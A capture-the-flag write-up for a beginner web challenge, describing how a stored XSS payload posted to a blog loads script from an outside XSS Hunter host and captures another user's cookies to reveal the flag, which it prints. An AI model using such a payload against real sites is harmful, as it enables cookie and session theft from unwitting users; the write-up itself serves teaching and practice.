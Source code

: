 # Beginner/blog

> Author: [@hagronnestad](https://github.com/hagronnestad)
> 
> This writeup is also available as a webpage here: [https://heinandre.no/ctf-equinor-22/beginner-blog/](https://heinandre.no/ctf-equinor-22/beginner-blog/)

![](00.png)

The website is a simple blog. We register a user; `test:test` and login.

Then we create a blog post with an `XSS`-payload. This task has no input filtering so a simple payload is enough. I'll use `https://xsshunter.com/app`.

```js
<script src=https://kahari.xss.ht></script>
```

Here we see our post with the hidden `<script>`-tag.

![](01.png)

Now we wait for another user to trigger our payload. After waiting for a bit we get a callback on `https://xsshunter.com/app`:

![](02.png)

The flag can be found in the "Cookies"-section:

![](03.png)

## Flag

```
EPT{I_never_sleep}
```
